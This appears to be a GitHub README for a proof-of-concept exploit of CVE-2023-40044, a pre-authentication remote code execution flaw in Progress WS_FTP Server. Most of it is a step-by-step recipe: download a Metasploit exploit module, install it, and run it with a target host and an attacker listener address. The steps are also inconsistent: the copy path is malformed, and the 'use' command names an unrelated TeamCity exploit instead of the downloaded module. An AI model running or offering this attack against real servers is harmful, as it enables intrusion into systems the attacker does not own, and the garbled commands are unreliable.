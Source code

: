 # CVE-2023-40044

![](https://img.shields.io/static/v1?label=Product&message=Progress%20Software&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=prior%20to%208.7.4%20and%208.8.2&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:9.8.%20Remote%20Code%20Execution&color=red)

## Description

In WS_FTP Server versions prior to 8.7.4 and 8.8.2, a pre-authenticated attacker could leverage a .NET deserialization vulnerability in the Ad Hoc Transfer module to execute remote commands on the underlying WS_FTP Server operating system.   

### Usage

### Metasploit Framework
```
wget https://raw.githubusercontent.com/getdrive/PoC/main/2023/Progress_Software_WS_FTP_RCE/ws_ftp_rce_cve_2023_40044.rb
```
```
cp ws_ftp_rce_cve_2023_40044.rb /usr/share/metasploit-frameworkmodules/exploits/windows/http/ws_ftp_rce_cve_2023_40044.rb
```
```
msfdb reinit; msfconsole -q
```
```
use exploits/multi/http/jetbrains_teamcity_rce_cve_2023_42793.rb
```
```
set RHOSTS target_IP
```
```
set lhost attacker_IP
```
```
run
```

